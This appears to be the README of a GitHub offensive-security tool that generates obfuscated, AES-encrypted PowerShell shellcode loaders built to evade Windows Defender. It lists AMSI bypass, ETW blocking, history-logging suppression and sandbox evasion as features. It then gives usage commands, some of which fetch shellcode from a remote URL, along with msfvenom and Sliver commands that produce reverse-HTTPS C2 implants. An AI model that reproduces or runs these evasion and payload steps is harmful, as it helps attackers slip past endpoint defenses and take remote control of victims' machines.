 ### Invoke-PoSH-ShellCodeLoader.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader PowerShell script that will inject the shellcode into the current process's virtual address space.  

#### FEATURES
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  - Compatible with the shellcode of multiple C2 frameworks: Metasploit, Silver and Havoc

#### USAGE
1. Examples with a shellcode file stored locally
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
```

2. Examples with a shellcode file stored on a remote web server
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
```
3. Examples with the optional parameter '-Sandbox'
```
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 -Sandbox
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1  -Sandbox
```

#### INPUT (Shellcode formats)  
- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f raw -o shellcode```  
  
- Sliver C2 Framework  
  ```[server] sliver > generate --arch amd64 -f shellcode --http IP -l --os Windows --save shellcode```  
  ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
  ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### LICENSE
  - GNU General Public License v3.0
